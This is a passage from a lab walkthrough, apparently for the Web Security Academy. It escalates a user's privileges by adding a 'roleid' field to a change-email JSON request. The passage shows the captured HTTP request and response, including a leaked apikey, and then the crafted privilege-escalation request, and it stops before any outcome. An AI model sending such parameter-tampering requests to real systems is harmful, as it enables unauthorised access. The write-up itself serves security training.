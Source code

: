 We see this time we didn't get any Admin parameter in the cookie and In our `/my-account` endpoint we didn't see any parameter that mentioned `roleid`. The only thing we see in the `/my-account` endpoint is changing our email. The request/response to change email is like the following.

**Request**
```json
POST /my-account/change-email HTTP/1.1
Host: 0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: text/plain;charset=UTF-8
Content-Length: 34
Origin: https://0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net
Connection: keep-alive
Referer: https://0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net/my-account?id=wiener
Cookie: session=ZW6C5tFKxbj18hVr4PrQJcsG5sLcI5B1

{"email":"wiener-test@normal-user.net"}
```

**Response**
```json
HTTP/1.1 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 126

{
    "username": "wiener",
    "email": "wiener-test@normal-user.net",
    "apikey": "m4sIgzxiPho3m3hNAOsG8Qx2vUJRy6i3",
    "roleid": 1
}
```

In the response we see some interesting things first we see the `roleid` is mentioned and with that, we also have some other things like `apikey`, email, and username. We know we only provide the email parameter and based on that they change the value of our email address but we didn't provide any `roleid` parameter so that means they returned through the server side. The question that comes to our mind is can we change the `roleid` by changing our email?

Let's try it by sending the following request to the server:

```
POST /my-account/change-email HTTP/1.1
Host: 0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: text/plain;charset=UTF-8
Origin: https://0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net
Connection: keep-alive
Referer: https://0a74003d04895c6b8007a83c00fc00b1.web-security-academy.net/my-account?id=wiener
Cookie: session=ZW6C5tFKxbj18hVr4PrQJcsG5sLcI5B1
Content-Length: 46

{
  "email": "wiener@normal-user.net",
  "roleid": 2
}
```
